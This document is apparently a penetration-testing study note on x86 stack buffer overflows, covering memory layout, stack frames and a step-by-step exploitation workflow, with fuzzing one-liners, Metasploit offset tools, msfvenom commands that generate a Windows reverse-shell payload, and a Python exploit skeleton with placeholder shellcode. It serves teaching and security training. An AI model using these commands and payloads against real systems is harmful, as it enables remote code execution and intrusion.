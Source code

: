 # x86 Stack Buffer Overflow Steps    
Resources:      
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst    
[TCM: Buffer Overflows Made Easy](https://www.youtube.com/watch?v=ncBblM920jw)     
[Vulnerable Functions](https://int0x33.medium.com/day-49-common-c-code-vulnerabilities-and-mitigations-7eded437ca4a)    
[Red Team Notes - x32 Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow)    
Buffer overflow: memory corruption exploit.     

## Anatomy of Memory     
```
Higher memory addresses 
--- Kernel ---
--- Stack ---  
--- Heap ---
--- BSS --- 
--- Data ---
--- Text ---
Lower memory addresses  
```   
Stack: LIFO (last in, first out), memory addresses grow down, contains function values (stack frames) need for the program to function. Instruction Pointer: registers that store the next instruction to execute.     
Heap segment: memory the programmer can control. Can be allocated and used, grows smaller or larger as needed. The memory within the heap is managed by allocator and deallocator algorithims, reserve a region of memory in the heap for use / remove perms to allow that portion of memory to be reused for later reservations. Heap will grow or shrink depending on how much memory is reserved for use.        
Data and bss segments: store global and static program vars. Data segment: filled with initialized global and static vars, bss is filled with unintialized. writeable segments with a fixed size, allows global and static vars to persist.           
Text / code segment: a fixed size segment, where assembled machine language instructions of the program are located.
      
Stack before overflow:      
```
High memory address ("base of stack")
-- Main()'s stack frame -- 
-- Arguments --   
-- Return address -- 
-- EBP (base pointer for the current stack frame) -- 
-- Local variables -- 
Low memory address ("top of the stack" - ESP)   
```
Stack after overflow:    
```
High memory address  
-- Shellcode --   
-- ESP --  
-- &jmp esp -- 
-- Overflow -- 
Low memory address ("top of the stack")
```

Stack frame: EBP register (or frame pointer (FP) / local base (LB) pointer) is used to reference local function variables in the current stack frame. Each stack frame contains the parameters to the function, its local variables, and two pointers that are neccessary to put things back the way they were: the saved frame pointer (SFP) and the return address. The SFP is used to restore EBP to its previous value, and the return address is used to restore EIP to the next instruction found after the function call.     
EIP - points to the next instruction for the CPU to execute.     
EBP - points to the base of the current stack frame (used as a reference point).    
ESP - points to the "top" of the stack.       

## What You Need    
- A vulnerable executable.
- A debugger such as GDB/GEF or Immunity Debugger (OS / platform dependant).
- A testing enviroment with the same architechure as the target.   
- Helpful tools: MsfVenom for generating payloads, pwntools Python library.    

## General Stack Buffer Overflow Steps   
Buffer overflow: an attacker can overflow a memory buffer by writing data to it without the program using bound checking to limit this from happening. This can affect not only the buffer but adjacent memory. An attacker can sometimes get remote code execution or privilege escalation.       

1. Identify the architechure for the binary and any protections on it (NX, ASLR, etc). 
2. Identify a segmentation fault causing a program to crash by fuzzing a program.    
    python -c "print('A'*200)" | nc 127.0.0.1 10000    
3. Test the ability to overwrite EIP and control program execution.
    3a. Note EIP value after a crash using a debugger.     
4. Identify the amount of bytes needed to overflow the program and overwrite EIP (the offset).   
    4a. Use a pattern to calculate the offset by supplying it as input to the program and noting the value of EIP.     
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300   
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value at EIP>
5. Note if the injected code is written onto the stack - if so EIP can force execution to ESP to then execute shellcode.    
6. Generate or write shellcode. If necessary, exclude common bad characters like \x00, \x0A, \x0D. Bad chars often corrupt the next byte after them so just take the first one in a sequence of 2.     
    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python    
7. Test the program for bad characters by creating a bytearray of chars from \x01 to \xff, injecting the characters and looking at the memory dump of the memory lcoation pointed to by EIP after the crash.       
All possible chars:     
    for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"    
Generate a payload without bad chars:     
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b 0x0a    
8. Control the overwrite - jump to a specific location and execute code there. One way to do this: find a 'jmp esp' instruction in the program that will ensure the shellcode on the stack will be executed and overwrite EIP with the memory address of this value.    
9. Insert padding (NOPs) as needed to ensure the exploit is more reliable (more room for error).

General buffer overflow exploit payload (this may need tweaking):      
Offset characters + return address (will overwrite EIP) + NOPs for padding + shellcode   

Common C vulnerable functions: strcpy(), stpcpy(), gets(), strcat(), strcmp(), sprintf().       

Exploit skeleton code:    
```
import socket, sys
#connect to a vulnerable server and send a payload - can also craft exploit using pwntools   
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 10000))
# send A's
buf = b"A"*268      #multiple by the offset  
# overwrite EIP with string RETN
buf += b"RETN"
# shellcode
buf += b"SHELLCODE"
# send payload
sock.send(buf)
sock.close()
```   
